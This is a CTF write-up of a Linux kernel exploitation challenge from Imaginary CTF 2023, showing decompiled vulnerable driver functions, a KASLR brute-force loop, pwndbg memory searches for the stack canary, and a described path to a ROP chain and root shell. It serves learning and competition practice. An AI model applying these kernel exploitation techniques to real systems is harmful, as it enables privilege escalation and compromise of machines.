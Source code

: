 ```yaml
---
title: "Window of opportunity: Linux kernel pwnable - Imaginary CTF 2023"
description: Easy linux kernel pwn with arbitrary read and write as features.
author: Shunt
tags: ["pwn", "kernel"]
pubDate: '2023-07-24'
---
```


This writeup was originally posted on my [github](https://github.com/terawhiz/kpwn/tree/main/challenges/window-of-opportunity). You can find more of my kernel ctf exploits [here](https://github.com/terawhiz/kpwn).

**Protections**: `SMEP, SMAP, KASLR, KPTI`\
**Kernel vers**: `5.19.0-43-generic x86_64 GNU/Linux`

The kernel module registers a character device at `/dev/window` and implements four file operations `device_open`, `device_release`, `device_write`, and `device_ioctl`.

Among them `device_write` and `device_ioctl` looks sus, lets take a look at it. In `device_write` function the `size` parameter is not validated, it can be used to overflow the stack and write a ROP chain. But there is a canary which prevents us from overflowing it.

```c
ssize_t __fastcall device_write(file *file, const char *buf, size_t size, loff_t *offset)
{
  ...
  char a[64]; // [rsp+0h] [rbp-50h] BYREF
  ...
  copy_from_user(a, buf, size);
  ...
  return 0LL;
}
```

The other function `device_ioctl` gets a `request` object from user which holds a pointer and a message. The request object is copied to a stack buffer safely using `copy_from_user` then it uses the `ptr` member of request struct as `src` operand in `copy_to_function`

> __copy_to_user — Copy a block of data into user space, with less checking. Returns number of bytes that could not be copied. On success, this will be zero.

```c
typedef struct {
    unsigned long* ptr;
    char msg[256];
} request;

__int64 __fastcall device_ioctl(file *filp, __int64 cmd, unsigned __int64 arg)
{
  ...
  request req; // [rsp+0h] [rbp-120h] BYREF
  ...

  if ( (_DWORD)cmd == 0x1337 )
  {
    v5 = v4;
    copy_from_user(&req, v4, 0x108LL);
    result = (int)copy_to_user(v5 + 8, req.ptr, 0x100LL);
  }
  ...
  return result;
}
```


We've got Arbitrary read but what can we read, KASLR is enabled so we don't even know any valid address, or so I thought for two reasons: One `copy_to_user` would not *panic* if passed an invalid src address. So I quickly found a unique string `"68F2D50B-C469-4d8A-BD3D-941A103FD3FC"` from the kernel image and bruteforced the address until `device_ioctl` returned the string.

```c
unsigned long uuid_offset = 0x22c1e00;
for (kaslr = 0xffffffff00000000; kaslr < 0xfffffffffff00000; kaslr += 0x100000) {
    req->ptr = kaslr + uuid_offset;
    ioctl(fd, 0x1337, req);
    if (!strncmp("68F2D50B-C469-4d8A-BD3D-941A103FD3FC", req->msg, sizeof("68F2D50B-C469-4d8A-BD3D-941A103FD3FC"))) {
        break;
    }
}
```

And the second reason is, someone in Discord mentioned Kernel text can be leaked by reading the Interrupt Descriptor Table (IDT) which isn't affected by kaslr.

> [12:46 AM]nasm: And for the fixed address it's a pointer toward kernel .text around the IDT, given IDT isn't affected by kaslr (hxp used the same trick recently in one of their challenge https://hxp.io/blog/99/hxp-CTF-2022-one_byte-writeup/)

Awesome! Now that we have text address we can ROP?? No, we still have to find the canary of `device_write` function. So, the first thing I did was setting a break point at `device_write` and grab the actual canary. Then used the search feature in pwndbg to find the occurence of canary in memory.

```go
pwndbg> search -8 0xf13c6e5c78a13700
Searching for value: b'\x007\xa1x\\n<\xf1'
<pt>            0xffff888005a75750 0xf13c6e5c78a13700
<pt>            0xffff888005a759d8 0xf13c6e5c78a13700
<pt>            0xffff888005a75c38 0xf13c6e5c78a13700
<pt>            0xffff888005a75e30 0xf13c6e5c78a13700
<pt>            0xffff888005a75e88 0xf13c6e5c78a13700
<pt>            0xffff888005aba208 0xf13c6e5c78a13700
<pt>            0xffff88800f400028 0xf13c6e5c78a13700
<pt>            0xffff88800f405ce0 0xf13c6e5c78a13700
<pt>            0xffff88800f405dc0 0xf13c6e5c78a13700
<pt>            0xffffc90000003ce0 0xf13c6e5c78a13700
<pt>            0xffffc90000003dc0 0xf13c6e5c78a13700
<pt>            0xffffc90000653750 0xf13c6e5c78a13700
<pt>            0xffffc900006539d8 0xf13c6e5c78a13700
<pt>            0xffffc90000653c38 0xf13c6e5c78a13700
<pt>            0xffffc90000653e30 0xf13c6e5c78a13700
<pt>            0xffffc90000653e88 0xf13c6e5c78a13700
```

Address starting with `0xffffc9..` are stack address or somthing which as far as I know aren't leakable. Now we need to find a pointer in kernel bss which is in the same mapping as the above canary pointers. 

*This is where I wasted lots of hours calculating wrong offsets*

~~Soon~~ I found these pointers in bss which is in the same mapping as canary pointer.

```go
pwndbg> tele 0xffffffff83003c80
00:0000│  0xffffffff83003c80 —▸ 0xffff88800f431380 ◂— 0x100000
01:0008│  0xffffffff83003c88 —▸ 0xffff8880042d8080 ◂— 0x100000
```

I used the pointer at `0xffffffff83003c80` to leak the `<canary_ptr + offset>`. Again use the Arbitrary address read to leak the canary. And then a straight kROP using `device_write` to get a shell.

#### Post Exploitation
> [12:44 AM]nasm: But with an initramfs the whole fs is directly mapped into the physmap

Apparantely, the `initramfs` archive is [loaded into kernel memory](https://wiki.ubuntu.com/Initramfs#:~:text=The%20archive%20is%20simply%20unpacked%20into%20a%20ram%20disk.) at the start. So we could have just searched for `ictf{` string at somewhere near `kernel_text + 0x2c3b000` to get the flag.

A simple flag search in gdb would have shown the flag location, instead of wasting ~6 hrs looking at hex numbers.

References:
1. https://lkmidas.github.io/posts/20210128-linux-kernel-pwn-part-2/
2. https://github.com/TrungNguyen1909/writeups/blob/master/matesctf/KSMASH/exploit.c
3. https://wiki.ubuntu.com/Initramfs
